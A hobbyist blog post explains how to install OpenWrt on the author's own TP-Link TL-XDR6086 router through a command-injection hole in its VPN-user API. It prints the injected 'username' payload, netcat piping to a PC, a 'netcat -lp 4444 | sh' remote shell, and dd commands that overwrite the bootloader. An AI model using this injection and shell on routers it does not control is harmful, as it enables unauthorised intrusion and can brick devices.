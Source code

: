 ```yaml
---
title: 'Install Openwrt in TP-Link TL-XDR6086'
description: 'use shell injection to flash Openwrt into TL-XDR6086'
pubDate: 'Aug 29 2024'
tags:
  - Router
  - OpenWrt
updatedDate: 'Nov 14 2024'
heroImageId: '727ee92c-717e-4d32-b8f2-98b9865c8300'
---
```


I thought I should buy a router before I would move to japan. 

For

1. OpenWrt Installable: I love openwrt, because of providing many unique functions like global transparent proxy.
2. Internal Antenna: Takes up less space and is neater.
3. 2.5 Gbps Cable Interface
4. Strong CPU: for OpenWrt and 2.5 Gbps bandwidth

I found TP-Link TL-XDR6086 in OpenWrt device list and bought one.

You can find the [tutorial](https://openwrt.org/toh/tp-link/xdr-6086) easily in OpenWrt website.

## Common knowledge you must know

It should be considered unusual that you can replace your router's operating system. Similar to gaining root access on an Android phone, this involves obtaining permissions that manufacturers intentionally restrict, typically through exploiting system vulnerabilities.

If you do what I did but in your case your router can never boot again, not my fault. It works on my machine.

You **should** search the device information in [OpenWrt Wiki](https://openwrt.org/toh/tp-link/xdr-6086), **not** Baidu, yahoo or other random somewhere.

You might need to download [built packages](https://downloads.openwrt.org/releases/21.02-SNAPSHOT/packages/aarch64_cortex-a53/packages/) from OpenWrt source, to avoid compile them manually.

I assume you know how to use Linux (or MacOS, freeBSD). If you only use Windows, get outta here.

## How the vulnerability works

When you call `http://192.168.1.1/stok=${STOK}/ds` to create a VPN user, there is a slot you can inject the shell command.

> After entering the admin page, use F12 to find the fetch requests, then you can get `${STOk}`.

```json
{
    "vpn":{
        "table":"user",
        "para":{
            "username":"; INJECT YOUR SHELL COMMAND HERE&",
            "password":"password1",
            "type":"l2tp",
            "netmode":"client2lan",
            "localip":"192.168.2.1",
            "dns":"1.1.1.1",
            "block":"0",
            "ippool":"new",
            "maxsessions":"1"
        },
        "name":"user_1"
    },
    "method":"add"
}
```

> For example, if you want to execute `echo 'fuck'`, `username` should be `;echo 'fuck'&`

Now, the shell command is stored in database. The trigger is when you delete this VPN user.

## Replace with OpenWrt

First, prepare a USB media. 

> By the way, based on what I've observed in Chinese forums, where many experienced users are skilled at bypassing CCP monitoring through VPNs, the most popular solution in Chinese OpenWrt community is to set up a TFTP server on a PC and configure the router to download everything from it.
>
> This is too troubling. For windows users, they even suggest them to install WSL then operate like a linux user.
>
> I think this is because many of them shares the solution without fully understanding why that works.

Download [`natcat`](https://downloads.openwrt.org/releases/21.02-SNAPSHOT/packages/aarch64_cortex-a53/packages/) into USB media. You'd better format it with FAT32, and rename the package into `netcat.ipk`.

### Mount USB media and prepare reflect shell

Run the following commands through the vulnerability I mentioned before.

```sh
mkdir /tmp/usb
```

Listen with netcat in your PC to receive the output from the injected shell.

```sh
nc -l -p 4444
```

> netcat is a network testing tool, also is widely used for reflect shell.
>
> Listen on your PC with netcat, and pipe the output of injected shell into `nc` in router, then you can get the output in your PC.
>
> If netcat is installed in the router, is is possible to listen with netcat on router from PC. By piping the message from pc, you can run the command from your PC.

For example, you can use this command to check if the creation is successful. Replace `192.168.1.100` with your PC's address.

```sh
ls -la /tmp | nc 192.168.1.100 4444
```

If succeed, mount the USB media. 

Attention that if you have plugged out the media, the number will increase, like `sda2` `sda3`, when you plug in. The number will recover to 1 after you reboot the device.

```sh
mount -t vfat /dev/sda1 /tmp/usb
```

> use `ls /dev | nc 192.168.1.100 4444` to find the name of USB media.

Check whether mounting is successful

```sh
ls -la /tmp/usb | nc 192.168.1.100 4444
```

Then, install natcat

```sh
opkg install /tmp/usb/netcat.ipk
```

Now, it is more convenient to run the shell command by netcat.

```sh
netcat -lp 4444 | sh
```

### Backup

backup to usb media:

```sh
dd if=/dev/mtdblock9 of=/tmp/usb/backup.img bs=131072
```

### Install U-Boot

**CAUTION: DANGEROUS OPERATION! Ensure acknowledging what and why you are doing!**

According to [this GitHub issue](https://github.com/hanwckf/immortalwrt-mt798x/issues/207), you can compile the u-boot from [the source code for bl-mt98x](https://github.com/hanwckf/bl-mt798x). *Of course you can also download form others*.

Execute these two commands *in order*. You must ensure the first one is successful then you can run the second one. Maybe the filename is different, the key is bl2 first then fip.

```sh
dd bs=131072 conv=sync of=/dev/mtdblock9 if=/tmp/usb/xdr608x-bl2.bin
dd bs=131072 conv=sync of=/dev/mtdblock9 seek=28 if=/tmp/usb/xdr608x-fip.bin
```

> use `2>&1 |` to receive the error

Set ip address in PC as `192.168.1.100/24`, the default gateway as `198.168.1.1`.

Cut off the power of router, then power up. If going well, the LED should blinks with red. Open <http://192.168.1.1> in browser and you can see the u-boot web ui.

![u-boot web ui](https://imagedelivery.net/6gszw1iux5BH0bnwjXECTQ/5d6eb200-ac42-4b02-c09b-f689ec194d00/public)

### Install OpenWrt

As of August 29, 2024, XDR-6086 is not fully supported by OpenWrt. It is quite difficult to find OpenWrt firmware that is compatible with XDR-6086.

I find compatible one in a Chinese forum called En Shan Forum (恩山论坛).

